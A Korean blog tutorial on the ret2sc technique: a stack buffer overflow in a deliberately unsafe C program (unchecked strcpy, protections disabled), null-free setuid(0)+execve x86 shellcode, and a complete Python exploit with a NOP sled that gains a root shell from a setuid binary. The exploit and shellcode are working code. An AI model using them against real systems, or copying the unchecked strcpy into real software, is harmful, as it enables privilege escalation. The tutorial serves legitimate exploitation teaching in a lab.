









저번 포스팅에선 쉘코드를 어떻게 만드는지에 대해 알아봤습니다.

이번엔 DEP 가 해제되어 있을 때 메모리에 쉘코드를 삽입하고 실행 흐름을 조작하는 기법인 ret2sc 에 대해 알아보겠습니다.

200n년도엔 공격자가 스택 영역에 쉘코드를 집어넣고 실행했던 일이 흔했지만 2004년부터 본격적으로 도입된 DEP 로 인해 많이 줄었습니다.

만약 DEP 가 걸려있다면, ret2libc 또는 ROP 기법을 보통 사용합니다. 이건 이후 포스팅에서 다루도록 하겠습니다.

아래 예제는 좀 극단적이지만 개발자가 실수로 보안 기능을 전부 끄고 사용자의 입력값을 검증 없이 그대로 복사한다고 가정해보겠습니다.

```c
/*
$ gcc -m32 -fno-stack-protector -mpreferred-stack-boundary=2 -z execstack -no-pie
$ cat /proc/sys/kernel/randomize_va_space # 0

Kernel: 4.4.0-142-generic x86_64 | gcc: 5.4.0
Checksec: Partial RELRO | No canary found | NX disabled | No PIE
*/
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
    char buf[32];
    strcpy(buf, *(argv + 1));
    printf("%s", buf);
}
```

일단 바이너리에 대한 분석을 먼저 해보겠습니다.

메모리 매핑을 보면 스택 영역인 `0x0804a000` - `0x0804b000` 에 실행 권한이 부여되어있는것이 보입니다.



gdb 로 살펴보면, main 에선 `0x20`(32바이트) 크기의 `buf` 공간을 확보하고 스택에 argv + 1 주소와 buf 주소를 차례대로 푸시하여 `strcpy()` 의 인수로 넘기고 있습니다.



이해하기 쉽도록 `strcpy()` 호출 전 스택 레이아웃을 그려보겠습니다.

```plaintext
offset
16    +---------------+
      |argv[1]        <---+
12    +---------------+   |
      |argv[0]        |   |
8     +---------------+   |
      |argc           |   |
4     +---------------+   |
      |ret            |   |
0     +---------------+   |
      |ebp            |   |
4     +---------------+   |
      |buf[32]        <-----+
36    +---------------+   | |
      |argv[1] addr   +---+ | # src
40    +---------------+     |
      |buf[32] addr   +-----+ # dest
44    +---------------+
```

페이로드를 구성해보면 더미로 36 바이트를 채워서 ebp 까지 덮고 ret 에 쉘코드가 위치한 스택 주소를 넣어야 할것같습니다.

이때 디버거 위에서 자식 프로세스로 실행되는 경우, 디버거가 추가한 환경변수등의 이유로 주소값에 변동이 생길 수 있는데요,



이럴때는 nop slide 를 넉넉히 추가해준뒤 중간쯤의 주소를 ret 에 덮어주면 다음 opcode 를 만날때까지 쭉 건너뛰기 때문에 주소가 약간 어긋나도 수월하게 익스를 성공시킬 수 있습니다.

쉘코드 작성법은 이전 포스팅에서 이미 다뤘으니 참고하시면 될 것 같습니다.



성공적으로 쉘은 획득했습니다. 하지만 현재 바이너리는 root 로 setuid 가 걸려 있는데도 권한 상승이 제대로 이뤄지지 않았습니다.

한가지 해결책을 생각해 보았는데, 쉘코드에 `setuid(0)` 을 추가하는 방법이 있습니다.

0 은 root 를 의미합니다. 이제 `setuid(0)` + 쉘을 실행시키는 코드를 빌드하고 gdb 로 분석하여 쉘코드를 다시 제작해보겠습니다.

```c
/*
* $ gcc -m32 -mpreferred-stack-boundary=2 ./test.c -o ./test
*/
#include <stdio.h>
int main()
{
    setuid(0);
    char *v0[2];
    *(v0 + 0) = "/bin//sh";
    *(v0 + 1) = (char *)0x00;
    execve(*v0, v0, *(v0 + 1));
}
```

빌드 후에 owner 를 root 로 바꾸고 setuid 를 설정해준뒤 실행하면 됩니다.



id, top 결과를 보면 root 권한으로 잘 실행되고 있는 것이 보입니다.

이제 opcode 를 추출해보겠습니다.



x86 시스템 콜 테이블상에서 setuid32 는 `0xd5` 를 의미합니다.

eax 에 시스템 콜 넘버 `0xd5` 를 넣고 ebx 를 `0x00`로 셋팅한 뒤 시스템 콜을 호출해주면 권한 상승이 이뤄집니다.



그런데 opcode 를 추출하려 objdump 로 열어보니 null 값이 붙어있었습니다.

쉘코드에 null 이 붙어있는 경우 `strcpy()` 가 그 부분에서 복사를 멈추기 때문에 쉘코드에 null 이 포함되지 않도록 해줘야 합니다.

null 이 생긴 이유는 eax 는 32비트 레지스터이기 때문에 전달되는 값도 4바이트로 변환되어서 그렇습니다.

al 은 eax 의 하위 1바이트라서 al 에 넣으면 null 이 생기지 않으니 저 부분만 변경해서 기존 쉘코드랑 합쳐보도록 하겠습니다.



기존에 있던 쉘코드 앞부분에 추가해서 사용하면 됩니다.

```plaintext
\xb0\xd5\x31\xdb\xcd\x80\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```

최종 exploit 은 이렇습니다.

```python
#!/usr/bin/env python
import os, struct, hexdump

p32 = lambda x : struct.pack('<L', x)

TARGET = os.environ["PWD"] + "/aaaa"
shellcode = "\xb0\xd5\x31\xdb\xcd\x80\x31\xc0\x31\xd2\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

payload = "\x90" * 36 # dummy
payload += p32(0xffffd5f8)
payload += "\x90" * 100 # NOP slide
payload += shellcode

print(hexdump.hexdump(payload))
os.execv(TARGET, [TARGET, payload])
```

이제 루트 권한까지 얻었습니다.



읽어주셔서 감사합니다.